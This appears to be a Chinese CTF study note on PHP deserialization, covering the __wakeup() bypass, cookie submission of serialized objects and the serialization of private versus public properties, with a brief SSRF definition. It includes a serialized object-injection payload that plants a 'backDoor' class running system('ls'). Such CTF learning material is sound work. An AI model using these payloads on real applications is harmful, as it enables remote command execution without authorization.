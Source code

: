 # 序列化与反序列化

[深度剖析PHP序列化和反序列化 - 悠悠i - 博客园 (cnblogs.com)](https://www.cnblogs.com/youyoui/p/8610068.html)

- 当序列化字符串中属性值个数大于属性个数，就会导致反序列化异常，从而跳过__wakeup()

## 初步-浏览器提交cookie

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669601510388-83720191-f04e-43c7-8387-083edf36c1db.png#averageHue=%23fefefd&clientId=u38b4829f-0909-4&from=paste&height=468&id=ubf1f5f55&originHeight=1030&originWidth=938&originalType=binary&ratio=1&rotation=0&showTitle=false&size=107774&status=done&style=none&taskId=ue8c91b64-b114-495b-8126-d5d400914b2&title=&width=426.36362712245364)

- 浏览器提交cookie的方法是

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669601555076-99948165-e594-40cc-9ce9-01c84d9bc760.png#averageHue=%23eaeff7&clientId=u38b4829f-0909-4&from=paste&height=280&id=ud23a1649&originHeight=615&originWidth=2630&originalType=binary&ratio=1&rotation=0&showTitle=false&size=98270&status=done&style=none&taskId=u16b8f30f-25fe-4e10-96a1-51f98989d4a&title=&width=1195.4545195437665)

- 在本地测试：

```php
echo urlencode(serialize((new ctfShowUser))
```

### public 与 private不同

![image.png](https://cdn.nlark.com/yuque/0/2022/png/29405061/1669605958466-661ea980-bfee-4087-bcc8-2c0621ab9cae.png#averageHue=%23fefefd&clientId=u0bfb7f9b-f4e8-4&from=paste&height=243&id=uf370695d&originHeight=534&originWidth=911&originalType=binary&ratio=1&rotation=0&showTitle=false&size=51710&status=done&style=none&taskId=u2dea85c5-d557-44fc-874e-b5d5249396c&title=&width=414.09090011573056)

- 当属性是Public时，序列化的结果对应下面的第一行
- 当属性是Private时，序列化的结果对应下面的第一行

```php
O:11:"ctfShowUser":4:{s:21:"ctfShowUserusername";s:6:"xxxxxx";s:21:"ctfShowUserpassword";s:6:"xxxxxx";s:18:"ctfShowUserisVip";b:0;s:18:"ctfShowUserclass";O:8:"backDoor":1:{s:14:"backDoorcode";s:13:"system('ls');";}}
O:11:"ctfShowUser":4:{s:8:"username";s:6:"xxxxxx";s:8:"password";s:6:"xxxxxx";s:5:"isVip";b:0;s:5:"class";O:8:"backDoor":1:{s:4:"code";s:13:"system('ls');";}}
```

## 从0开始Laravel

## 常用payload

### ssrf+反序列化

#### ssrf

1. 服务器端请求伪造（SSRF）是指攻击者能够从易受攻击的Web应用程序发送精心设计的请求的对其他网站进行攻击。(利用一个可发起网络请求的服务当作跳板来攻击其他服务)
2. 攻击者能够利用目标帮助攻击者访问其他想要攻击的目标
3. 攻击者要求服务器为他访问URL
4. 可用于内网访问

#### netstate

[https://zhuanlan.zhihu.com/p/397058259](https://zhuanlan.zhihu.com/p/397058259)

